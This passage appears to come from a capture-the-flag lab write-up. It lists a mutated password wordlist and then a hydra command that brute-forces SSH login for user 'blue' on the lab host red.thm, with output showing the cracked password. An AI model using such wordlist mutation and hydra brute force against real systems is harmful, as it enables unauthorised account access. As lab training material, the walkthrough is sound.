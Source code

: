 ```abap
sup3r_p@s$w0rer
sup3r_p@s$w0rie
sup3r_p@s$w0o
sup3r_p@s$w0y
sup3r_p@s$w0123
sup3r_p@s$w0man
sup3r_p@s$w0dog
1sup3r_p@s$w0rd!
thesup3r_p@s$w0rd!
dup3r_p@s$w0rd!
map3r_p@s$w0rd!
sup3r_p@s$w0rd!
sup3r_p@s$w0rd!
sup3r_p@s$w0rd!
su3r_p@s$w0rd!
sur_p@s$w0rd!
supr_p@s$w0rd!
sup3_p@s$w0rd!
supr
sup3r1
sup3r_p@s$w0rd
sup3r_p@s$w0r
sup3r_p@s$w0
sup3r_p@s$w0sup3r_p@s$w0
sp3r_p@s$w0
w0rd
s$w0rd!p3r_p@
sup3r_p@s$w0!
cup3r_p@s$w0r
rd!sup3r_p@s$w0
0rd!
w0rd!
$w0r$w0r
sup3
3rs3rs
{up3r_p@s$w0rd!
v3r_p@s$w0rd!
sup3p@
suprsupr
3rs
suw0suw0
swp@
sup3rp
s_p@s$
```

Then we use hydra with the password list we have

```abap
hydra -l blue -P passlist.txt red.thm -t 4 ssh
### For everyone this password will be different ###
[22][ssh] host: red.thm   login: blue   password: sup3r_p@s$w0rd!9
```
